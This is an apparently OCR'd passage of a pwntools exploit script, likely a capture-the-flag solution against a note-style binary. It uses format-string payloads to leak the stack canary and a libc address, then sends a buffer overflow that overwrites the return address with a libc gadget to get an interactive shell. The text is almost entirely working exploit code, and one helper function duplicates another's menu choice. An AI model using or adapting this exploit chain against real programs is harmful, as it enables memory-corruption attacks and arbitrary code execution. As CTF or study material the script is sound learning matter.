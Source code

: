 ```py
	p.sendline(date)
	print(p.recv())
	return pos 

def remove(pos):
	p.sendline("2")
	p.recvuntil(': ')
	p.sendline(str(pos))
	print(p.recv())

def edit(pos):
	p.sendline("2")
	p.recvuntil(': ')
	p.sendline(str(pos))
	print(p.recv())

def view(pos):
	p.sendline("4")
	p.recvuntil(': ')
	p.sendline(str(pos))
	return p.recv()

def extract_fsb_leak(leak):
	return int(leak.split(b'\n')[2].split(b": ")[1], 16)

p.recvuntil('> ')

leak_canary_chunk = insert(1, 'A' * (0x20-1), 1, b'%9$p: aaaaa\x00')
leak = view(leak_canary_chunk)
canary = extract_fsb_leak(leak)


leak_libc_chunk = insert(3, 'C' * (0x20-1), 1, b'%15$p: aaaa\x00')
leak = view(leak_libc_chunk)
libc_leak = extract_fsb_leak(leak)

libc.address = libc_leak - 0x29d90

print(hex(canary), hex(e.address), hex(libc.address))

bof_chunk = insert(2, 'E' * (0x20 - 1), 2, b'B'*11+b'\x00'*29 + p64(canary) + p64(0) + p64(0x50a37+libc.address))
p.interactive()
```

  
